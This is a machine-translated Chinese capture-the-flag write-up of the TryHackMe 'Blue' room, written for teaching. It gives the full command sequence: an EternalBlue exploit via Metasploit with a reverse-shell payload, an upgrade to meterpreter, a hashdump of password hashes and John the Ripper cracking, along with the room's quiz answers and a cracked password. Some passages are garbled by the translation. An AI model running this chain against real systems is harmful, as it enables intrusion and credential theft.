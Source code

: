 # TryHackMe:蓝色

> 原文：<https://infosecwriteups.com/tryhackme-blue-671e0095bc45?source=collection_archive---------1----------------------->

![](img/07b01e2469ddfe037506f69d381b0c52.png)

这个房间基于 windows 机器，我们需要利用常见的错误配置。

**【任务 1】侦查**

在给定的机器上启动 nmap 扫描:

```
nmap -sV --script vuln -oN nmap/initial <ip>
```

![](img/f9ea94f4e40d88bedbe4a63977fffd51.png)

我们发现端口 135、139、445、3389、49152、49153、49154、49158、49160 是打开的。

上面使用的 vuln 扫描使用一整类脚本来测试易受攻击的目标。

![](img/5aeb7b7a201de86aafcc8eac65f3096f.png)

我们可以看到，sm b-vuln-ms17–010 利用远程代码执行漏洞。

> 端口号低于 1000 的开放端口有多少个？

```
3
```

> 这台机器容易受到什么攻击？(以:ms 的形式回答？？-?？？，例如:ms08–067)

```
ms17-010
```

**【任务二】获得权限**

我们启动 Metasploit 并搜索我们在初始侦察中发现的漏洞。

```
msfconsolemsf6 > search ms17-010
```

![](img/77be0bd6bc0615ff1210dad4b3c3f390.png)

我们发现永恒的蓝色中小企业远程利用。

> **EternalBlue** 利用 SMBv1 漏洞插入恶意数据包，在网络上传播恶意软件。该漏洞利用了 Microsoft Windows 处理或错误处理恶意攻击者特制数据包的方式。

然后，我们选择漏洞并显示需要设置的选项。

```
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```

![](img/b924fc88d15da5ca358341af178a1955.png)

我们需要将 RHOSTS 设置为我们的 box IP 地址(在我的例子中，我需要将 LHOST 设置为我的 tun0 IP)。

```
set RHOSTS <ip>
set LHOST <ip>
```

我们按照指定的指令将有效负载设置为 windows/x64/shell/reverse_tcp。

```
set payload windows/x64/shell/reverse_tcp
```

然后我们开始利用。

```
exploit
```

![](img/633c16078609d2163fd95df10cc387a9.png)

为了检查我们当前的访问级别，我们使用 whoami 并得到:

```
nt authority\system
```

> 找到我们将在机器上运行的利用代码。代码的完整路径是什么？(例如:利用/……..)

```
exploit/windows/smb/ms17_010_eternalblue
```

> 显示选项并设置一个必需的值。这个值的名称是什么？(提交时全部大写)

```
RHOSTS
```

**【任务 3】升级**

现在，我们对当前的 shell (Ctrl+Z)进行后台处理，并将我们的 shell 转换为一个 meterpreter shell。

```
msf6 > search shell_to_meterpreter
msf6 > use 0
```

我们显示了当前所选漏洞的选项。我们设置 LHOST 和 SESSION。

```
set LHOST <ip>
set SESSION <session-no.>
```

![](img/3568939a5a9c6e83d1629d86103ad246.png)

我们运行这个漏洞并得到一个 meterpreter 会话。然后，我们使用 meterpreter 会话代替 shell。

```
sessions -i <meterpreter-session-no.>
```

![](img/68a1e4e8fc0b03663524913dd6e2d018.png)

现在我们有一个米普雷特会议。我们使用 getsystem 和 getuid 检查我们是否是 NT AUTHORITY\SYSTEM。我们作为一个系统运行，但这并不意味着我们的过程是。我们需要迁移到另一个流程。通常我们使用 services.exe。

![](img/bec3186a6b768f7adb43cc6b206ca244.png)![](img/4a653419e2d21e61ed8017bc8c0b4ac8.png)

> 如果你还没有，背景之前获得的外壳(CTRL + Z)。在线研究如何在 metasploit 中将 shell 转换为 meterpreter shell。我们将使用的 post 模块的名称是什么？(确切的路径，类似于我们之前选择的利用方式)

```
post/multi/manage/shell_to_meterpreter
```

> 选择此项(使用模块路径)。显示选项，我们需要更改什么选项？

```
SESSION
```

**【任务四】破解**

我们在一个高架的米特尔外壳里。我们可以使用 hashdump 命令并获取存储在机器上的密码散列。

```
meterpreter > hashdump
```

![](img/02b6189fdc914c15ce714f537db2ba03.png)

我们复制这个哈希，用开膛手约翰破解，同时用 rockyou.txt 单词表。

```
john --format=nt --wordlist=<path-to-wordlist> <hash>
```

默认情况下，约翰专注于 LM，而不是 NTLM 哈希。因此，我们需要将格式指定为 NT。

![](img/49f4be644fed3f010b0b06a147ead4e6.png)

我们得到用户 Jon 的密码。

> 在我们提升的 meterpreter shell 中，运行命令' hashdump '。这将转储机器上的所有密码，只要我们有正确的权限这样做。非默认用户的名称是什么？

```
Jon
```

> 将这个密码哈希复制到一个文件中，研究如何破解它。被破解的密码是什么？

```
alqfna22
```

**【任务五】找旗子！**

因为我们有一个 meterpreter shell，所以我们可以在系统上搜索一个文件。

我们首先将目录改为 C:/(系统的根目录)。我们在系统根目录中找到 flag1.txt。

![](img/142d3d250e34cdc6caa2454845bdfc65.png)

我们现在可以直接搜索标志，因为我们知道文件的格式。

```
meterpreter > search -f flag*txt
```

![](img/fbc1f7559e48de4f53fb2b7fa612cb6e.png)

我们已经找到了系统上的所有文件，并成功地完成了房间。这些标志代表了我们需要知道的 Windows 系统中的关键位置。

> flag1？*这个标志可以在系统根目录下找到。*

```
flag{a****************e}
```

> flag2？*这个标志可以在 Windows 里面密码存放的位置找到。*

```
flag{s**************************s}
```

> flag3？可以在一个绝佳的地点找到这面旗帜。毕竟，管理员通常会保存一些非常有趣的东西。

```
flag{a*****************************e}
```

TryHackMe 简介:[https://tryhackme.com/p/kaneki10007](https://tryhackme.com/p/kaneki10007)